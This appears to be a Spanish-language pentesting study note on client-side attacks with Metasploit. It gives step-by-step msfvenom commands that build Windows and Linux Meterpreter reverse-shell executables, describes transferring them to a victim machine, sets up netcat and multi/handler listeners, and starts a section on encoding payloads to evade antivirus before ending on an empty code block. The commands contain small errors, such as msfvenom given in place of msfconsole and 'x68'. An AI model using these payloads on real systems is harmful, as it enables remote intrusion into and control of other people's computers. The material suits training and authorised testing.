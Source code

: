 # Ataques del lado del cliente con Metasploit 

Tags: #Metasploit #Msfvenom #Encode #Payloads #Shellcode 

* Client-Side Attacks: Es un vector de ataque hace que un cliente ejecute un payload malicioso en su sistema que consecuentemente hará una conexión trasera con un atacante cuando sea ejecutado. Utiliza documentos o archivos ejecutables. 

## Msfvenom

Msfconsole: Es una utilidad de línea de comando que puede ser usada para generar y encodear payloads MSF para varios sistemas operativos, así, como servidores web. Es la combinación de dos utilidades: Msfpayload y Msfencode. Podemos utilizar Msfvenom para generar payloads maliciosos en Meterpreter que pueden ser transferidos al sistema del cliente. Una vez ejecutados, harán una conexión a nuestro payload handler y nos proveerá un acceso remoto al sistema target.  

### Para Windows 

```bash 
1. Debemos crear el Msfvenom en nuestra maquina Linux 

❯ msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=443 -f exe > /home/kali/Desktop/payloadx86.exe

	# LHOST = IP de atacante 
	# LHOST = Puerto de atacante 
	# p = Payload
	# a = Arquitectura x64, x86
	# f = Formato de salida y la ruta en donde nos lo creara (exe, war, etc...)

❯ msfvenom -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=443 -f exe > /home/kali/Desktop/payloadx64.exe
```

```bash 
2. Debemos de transferir el archivo a la maquina victima Windows 
```

```bash
3. Nos ponemos en escucha para cuando se ejecute el payload en la maquian victima podamos establecer la Revershell
❯ rlwrap nc -nlvp 443
```

```bash 
3. Nos ponemos en escucha con MSF para cuando se ejecute el payload en la maquian victima podamos establecer la Revershell
# Con el archivo malicioso hecho en msfvenom, hacemos lo siguiente y nos pondriamos en 'listening'

❯ msfvenom -q                  # q = Quitar el banner de inicio

	❯ use multi/handler                 
	❯ set payload windows/meterpreter/reverse_tcp           # Colocamos el mismo payload que en el msfvenom
	❯ options
	❯ set LHOST 192.168.68.1                     
	❯ set LPORT 1234
	❯ run
```

### Para Linux 

```bash 
1. Debemos crear el Msfvenom en nuestra maquina Linux 

❯ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=443 -f elf > ~/Desktop/payloadx86

	# LHOST = IP de atacante 
	# LHOST = Puerto de atacante 
	# p = Payload
	# a = Arquitectura x64, x86
	# f = Formato de salida y la ruta en donde nos lo creara (elf, exe, war, etc...) y podemos o no agregarle la extension 

❯ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=443 -f elf > ~/Desktop/payloadx64
```

```bash 
2. Debemos de transferir el archivo a la maquina victima Linux 
```

```bash
3. Nos ponemos en escucha para cuando se ejecute el payload en la maquian victima podamos establecer la Revershell
❯ nc -nlvp 443
```

```bash 
3. Nos ponemos en escucha con MSF para cuando se ejecute el payload en la maquian victima podamos establecer la Revershell
# Con el archivo malicioso hecho en msfvenom, hacemos lo siguiente y nos pondriamos en 'listening'

❯ msfvenom -q                  # q = Quitar el banner de inicio

	❯ use multi/handler                 
	❯ set payload linux/x68/meterpreter/reverse_tcp           # Colocamos el mismo payload que en el msfvenom
	❯ options
	❯ set LHOST 192.168.68.1                     
	❯ set LPORT 1234
	❯ run
```


## Encodear Payload con MSF

* Se utiliza el encodeamiento de los payload ya que los atacantes después de transferir y almacenar los payloads maliciosos en los discos duros de los clientes, los atacantes necesitan estar consientes de la detección de los Antivirus (AV).  Los usuarios finales de soluciones de AV utilizan detección basada en orden para identificar archivos o ejecutables maliciosos. Podemos evadir los AV encodeando nuestros payloads. Encodear es un proceso de modificar el Shellcode del payload con el objetivo de modificar la firma del payload. 

* Shellcode: Es una pieza de código típicamente usada como un payload para explotación. 

```bash 
❯ 
```